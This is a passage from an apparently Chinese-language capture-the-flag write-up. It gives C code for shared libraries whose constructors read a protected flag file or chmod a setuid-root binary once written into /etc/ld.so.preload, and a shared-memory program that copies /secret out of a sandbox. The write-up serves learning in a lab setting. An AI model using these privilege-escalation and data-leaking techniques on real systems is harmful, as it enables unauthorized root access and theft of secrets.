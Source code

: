 * P.S. `F` 和 `i` 之间这个 `-` 特别不明显，导致我一开始没看出来，错失一血（

## 传达不到的文件

* 这应该是一个非常规解法

### 打不开

&emsp;&emsp;我们有一个 `04111` 权限的 `chall` 文件，而且所属用户是 0（root），再一联想到 Zygisk 的注入机制，诶这不就有办法了嘛！写一个动态链接库，然后让 ld.so 为我们加载：

```c
#include <stdio.h>

__attribute__((constructor)) void hack() {
    FILE* fp = fopen("flag2", "r");
    char flag[256];
    fscanf(fp, "%[^\n]", flag);
    printf("Hacked!\n");
    printf("%s\n", flag);
}

```

&emsp;&emsp;编译为 `hack.so`，然后通过 base64 发送到题目环境，再通过 `echo /hack.so > /etc/ld.so.preload` 写入配置，此时执行 `/chall` 即可越权读到 `flag2` 文件

### 读不到

&emsp;&emsp;把刚刚的程序改一下，让我们的 chall 在执行时把自己 chmod 成 0777 权限：

```c
#include <stdio.h>
#include <sys/stat.h>

__attribute__((constructor)) void hack() {
    printf("Hacked!\n");
    chmod("/chall", 0777);
}

```

&emsp;&emsp;然后就可以通过 `strings /chall` 获取 flag

## 看不见的彼方

&emsp;&emsp;共享内存通信即可：

```c Alice.c
#include <stdio.h>
#include <string.h>
#include <sys/shm.h>

int main() {
    FILE *fp = fopen("/secret", "r");
    char buffer[0x1000];
    fscanf(fp, "%[^\n]s", buffer);
    fclose(fp);

    int id = shmget(114514, 0x1000, IPC_CREAT | 0666);
    void *addr = shmat(id, NULL, 0);
    memcpy(addr, buffer, sizeof(buffer));
}

```
